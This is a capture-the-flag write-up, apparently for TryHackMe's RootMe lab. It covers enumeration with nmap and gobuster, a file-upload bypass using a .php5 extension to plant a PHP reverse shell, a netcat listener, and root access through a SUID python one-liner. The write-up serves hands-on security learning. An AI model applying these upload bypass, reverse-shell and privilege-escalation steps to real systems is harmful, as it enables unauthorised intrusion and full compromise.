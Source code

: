 # RootMe Writeup (TryHackMe)

## 🧭 Enumeration

Scanned the target using:

```bash
sudo nmap <target> -sS -T4 -A -oN init_scan
```

![2025-05-07_12-07](https://github.com/user-attachments/assets/3b8590c3-3019-4e72-bc2a-8d6d20ba7774)

Open ports: `22`, `80`

## 🔍 Web Enumeration

Used Gobuster to look for hidden directories:

```bash
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
```

![2025-05-07_12-12](https://github.com/user-attachments/assets/b2f7b77d-86ab-4e40-be99-1cc47f85e780)

Found `/uploads` and `/panel`.

## 💻 File Upload Exploit

The `/panel` directory allowed uploading files, accessible later via `/uploads`.

![2025-05-07_12-14_1](https://github.com/user-attachments/assets/cbcdef1f-4988-45d3-8263-a85ec343143e)
![2025-05-07_12-14](https://github.com/user-attachments/assets/1d9c409e-424e-438a-a575-7afc3eeb6569)

Tried uploading a PHP reverse shell. It rejected `.php`, `.php.gif`, and `.php.jpg` due to image validation errors.

![2025-05-07_12-21](https://github.com/user-attachments/assets/f10ee265-453d-4bba-9116-ea6f09be5b42)
![2025-05-07_12-50](https://github.com/user-attachments/assets/f6fbbfc3-1821-4635-aad6-9ee591a1ca4c)

Found `.php5` as a bypass method, and it worked. Uploaded the reverse shell as `.php5`, gained reverse shell.

![2025-05-07_13-00](https://github.com/user-attachments/assets/ced59dd5-b435-4f60-b81e-6e1b88068689)
![2025-05-07_12-58](https://github.com/user-attachments/assets/18b90b5b-bfd3-44b3-a35a-8a39d19a4f3f)

Set up Netcat listener:

```bash
nc -lvnp 7777
```

![2025-05-07_13-01](https://github.com/user-attachments/assets/2dc89d7d-4752-44e6-a17f-aaec10a2ca6f)

Upgraded shell using Python:

```bash
which python
which python3
python -c 'import pty; pty.spawn("/bin/bash")'
```

![2025-05-07_13-03](https://github.com/user-attachments/assets/98a656b6-e3a2-4602-a1a8-b5c90bdf84bb)

## 📄 User Flag

Located the user flag:

```bash
find / -type f -name user.txt 2>/dev/null
```

![2025-05-07_13-09](https://github.com/user-attachments/assets/2360d452-ca6f-4f08-9713-05fed3668721)

Found at: `/var/www/user.txt`

## 🛠️ Privilege Escalation

Searched for SUID binaries:

```bash
find / -type f -perm -04000 2>/dev/null
```

![2025-05-07_13-12](https://github.com/user-attachments/assets/16c9ae50-fcdb-4204-bb81-f6f3e6da1cba)

Found `/usr/bin/python` with SUID set.

Used GTFOBins trick:

![2025-05-07_13-13](https://github.com/user-attachments/assets/74f94857-4ef3-4925-be3d-f2accd3ab6b7)

```bash
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![2025-05-07_13-14](https://github.com/user-attachments/assets/64f56252-548d-467c-b596-8ce1a922af1a)

Got root shell.

Located the root flag:

```bash
find / -type f -name root.txt 2>/dev/null
```

![2025-05-07_13-15](https://github.com/user-attachments/assets/b3cfa837-37fe-4be0-b26d-12d610b6088f)

Found at: `/root/root.txt`

## 🧾 Conclusion

![2025-05-07_13-15_1](https://github.com/user-attachments/assets/9cdf2f15-332a-4895-84ae-3b1b44b24085)

This challenge covered file upload vulnerabilities, reverse shell techniques, and classic SUID exploitation.

* Found hidden directories with Gobuster
* Bypassed file upload restrictions with `.php5`
* Used Python SUID binary for root escalation

A solid exercise in understanding how insecure file upload mechanisms and misconfigured SUID binaries can be leveraged for full system compromise.
